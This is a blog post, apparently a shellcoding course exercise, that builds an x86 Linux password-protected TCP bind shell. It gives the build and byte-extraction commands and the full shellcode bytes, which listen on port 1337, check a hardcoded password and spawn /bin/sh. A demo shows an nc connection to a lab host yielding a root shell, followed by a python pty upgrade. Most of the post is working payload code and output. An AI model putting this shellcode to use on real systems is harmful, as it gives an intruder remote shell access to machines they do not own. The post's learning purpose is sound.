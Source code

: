 
### The actual code

{% highlight nasm %}
{% include files/shellcode/x86_bind_tcp_passwd.asm %}
{% endhighlight %}


### Our shellcode in action

Compile it.

{% highlight bash %}
nasm -felf shellcode.asm && ld -melf_i386 shellcode.o -o shellcode.out
{% endhighlight %}

Dump our shellcode.

{% highlight bash %}
objdump -d shellcode.out |grep '[0-9a-f]:' \
|grep -v 'file'  |cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' ' \
|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
{% endhighlight %}

Our shellcode. _After some manual formatting. *cough*_
{% highlight c %}
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xff\x31\xf6\xb0\x66\xb3\x01\x56"
"\x53\x6a\x02\x89\xe1\xcd\x80\x97\x31\xc9\xb0\x66\x43\x51\x66\x68\x05"
"\x39\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc9\xb0\x66"
"\xb3\x04\x51\x57\x89\xe1\xcd\x80\x31\xc9\xb0\x66\x43\x51\x51\x57\x89"
"\xe1\xcd\x80\x96\x31\xc9\xb0\x66\xb3\x0a\x51\x6a\x0c\x54\x56\x89\xe1"
"\xcd\x80\x81\x7c\x24\x08\x77\x30\x31\x75\xce\x81\x7c\x24\x0c\x73\x64"
"\x73\x75\xc4\x31\xc9\x89\xf3\xb0\x3f\xcd\x80\x41\x80\xf9\x03\x75\xf6"
"\x31\xc9\xb0\x0b\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3"
"\x89\xca\xcd\x80"
{% endhighlight %}

### Result

{% highlight text %}
# Server
root@arch:/# ./shellcode.out 
-----------------------------------------------------------------------------
# Client
root@kali:/# nc 192.168.2.139 1337
w0t1sd1s
python -c 'import pty; pty.spawn("/bin/sh")'
# whoami
whoami
root
{% endhighlight %}

### Closing thoughts

There is definitely room for improvement, I assume my shellcode could be 20-40 bytes smaller.
But then again, my goal was just to create this shellcode without caring **that much** about the size.

